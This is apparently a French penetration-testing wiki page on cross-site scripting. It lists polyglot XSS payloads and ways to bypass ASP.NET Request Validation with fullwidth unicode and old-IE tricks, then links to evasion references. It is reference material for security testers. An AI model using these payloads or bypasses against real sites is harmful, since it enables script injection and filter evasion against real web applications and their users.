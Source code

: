 ```yaml
---
title: Cross Site Scripting
permalink: /XSS/
---
```


# Cross-Site Scripting

## Payloads

Les payloads suivants peuvent être utiles:

``` text
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//"; alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
```

```text
" onclick=alert(1)//<button ' onclick=alert(1)//>*/alert(1)//
```

## ASP.Net

ASP.Net a le mécanisme de "Request Validation" qui bloque de nombreuses tentatives XSS. Globalement tout payload de la forme "<a" (où a est une lettre ou le caractère ! sera bloqué).

Quelques bypass sont possibles:
- Sur les vieilles versions d'IE le payload <#tag
- Si on a une stored il est possible d'injecter un payload en unicode (voir [Bypassing ASP.NET “ValidateRequest” for Stored XSS attacks](https://infosecauditor.wordpress.com/2013/05/27/bypassing-asp-net-validaterequest-for-script-injection-attacks/)). Ceci est dû à une conversion qui est faite par la base de données (les caractères unicodes étant convertis en leur équivalent "standard"): 
``%uff1cscript%uff1ealert('XSS');%uff1c/script%uff1e``
- Sur les vieilles versions de IE et de ASP.net (patch en 2007) le payload suivant marche: ```</XSS STYLE=xss:expression(alert('XSS'))>```

## Références

- [Master the art of Cross Site Scripting](https://brutelogic.com.br/blog/)
- [XSS without event handlers](https://brutelogic.com.br/blog/xss-without-event-handlers/): pour les situations où les events du type onerror sont bloqués
- [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
- [PassiveXssScan](https://github.com/jkadijk/burp-plugins): un plugin pour identifier automatiquement les éléments "reflected" dans Burp.
